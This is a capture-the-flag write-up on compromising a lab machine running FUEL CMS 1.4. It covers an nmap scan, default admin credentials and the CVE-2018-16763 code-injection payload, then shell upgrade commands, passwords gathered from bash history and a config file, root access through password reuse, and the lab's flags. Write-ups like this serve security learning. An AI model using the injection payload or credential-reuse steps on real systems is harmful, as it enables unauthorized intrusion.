# FUEL

## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 31:3f:4e:32:8c:28:6d:92:2c:58:1d:9e:12:e8:23:c5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDN7WOd3eBoWrijaP9ht9lhr3G/MBjhE0DWmONR01DbR1So/fUz73Z/YwPeJlh0e5ZPMd5kS4BKtYKm67OFxpNHtHN/dxHPrJw3Eb3PWeaQn1yleHNpBiTXgUYcG/GdFVFr6UtLmQXmFhOR3h1Kf2e0zckV/eeKp6IITH56ZviaW8i/FLSyI+KWEaFaJGz93VdvzpqvQEtPk3PyOs2l3zr3fBkXrBkRxkKevurGKUOE8Rkgkb64xRmwlUUfFKj4Rx6pMSIOAaaIbFnqF7vOwiZzIZKc3ckbcGu/YsWNp+wnW0WVJUozSB9wqX87jTUmQWn9C1OtAtKakqYO9rXufpTH
|   256 51:d6:24:44:8d:e9:14:4d:89:73:1c:c6:ad:b6:bb:02 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOxVwd7ROrsWsOdeEIdKhv9CF1nk45BhO9S7cRJesDeO
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```

## PORT 80 ENUMERATION



### FUEL CMS 1.4





#### /FUEL

* login page

```text
admin:admin works
```



## EXPLOIT

* [https://www.cvedetails.com/cve/CVE-2018-16763/](https://www.cvedetails.com/cve/CVE-2018-16763/)





* [https://www.exploit-db.com/exploits/47138](https://www.exploit-db.com/exploits/47138)



```text
'+pi(print($a='system'))+$a('<the cmd you use>')+'
```







**UPGRADE SHELL**

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```text
Ctrl+Z
stty raw -echo; fg
Enter
export TERM=XTERM
```

## MACHINE ENUMERATION

### HOSTNAME

```text
ip-172-31-1-28
```

### USERS WITH SHELL

```text
root:x:0:0:root:/root:/bin/bash
moira:x:1001:1001:,,,:/home/moira:/bin/bash
ubuntu:x:1002:1002:Ubuntu:/home/ubuntu:/bin/bash
```

### IN MOIRA BASH HISTORY



```text
moira:xH5es74TMBpWmdaG
```

### WEB DIRECTORY FUEL





* MYSQL PASSWORD \(/var/www/fuel/fuel/application/config/database.php\)



```text
moira:AVerySecureCoolPassword5
```

## PRIVESC

I've tried everything and after a while, i thougt... lets try again all passwords found with root and ubuntu user.



```text
root:xH5es74TMBpWmdaG
```

## FLAGS

### USER

```text
9f0668a3231303b55d593e6d61b1b902
```

### ROOT

```text
8f382ca4acbc37411a38b055c0eb85d7
```


